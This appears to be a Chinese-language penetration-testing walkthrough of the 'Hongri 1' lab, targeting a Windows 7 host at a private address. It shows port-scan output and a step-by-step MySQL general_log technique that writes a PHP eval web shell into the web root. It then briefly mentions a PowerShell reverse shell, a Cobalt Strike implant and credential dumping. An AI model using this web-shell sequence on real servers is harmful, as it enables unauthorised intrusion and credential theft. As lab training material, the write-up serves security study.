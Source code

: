 ## 红日1
### win7 外网
`192.168.36.135`192.168.36.135
nmap扫端口
```text
Nmap scan report for 192.168.36.135
Host is up (0.00019s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1025/tcp open  NFS-or-IIS
1026/tcp open  LSA-or-nterm
1027/tcp open  IIS
1028/tcp open  unknown
1029/tcp open  ms-lsa
1057/tcp open  startron
3306/tcp open  mysql
```

dirb扫描到phpmyadmin,看到yxcms里有admin的密码,解出来得到`949ba59abbe56e05`

执行sql语句无法直接写入文件,采用日志文件getshell
(1) 开启日志记录:

set global general_log = "ON";
(2) 查看当前的日志目录:

show variables like 'general%';
(3) 指定日志文件

set global general_log_file = "C:/phpStudy/WWW/a.php";
(4)) 写入执行代码：

select "<?php eval($_POST['cmd']); ?>";

成功getshell
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318222743.png)

使用powershell反弹一个shell回来,使用cs生成木马并使用蚁剑上传到靶机上

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240318225002.png)
成功上线cs

`logonpasswords`抓取密码


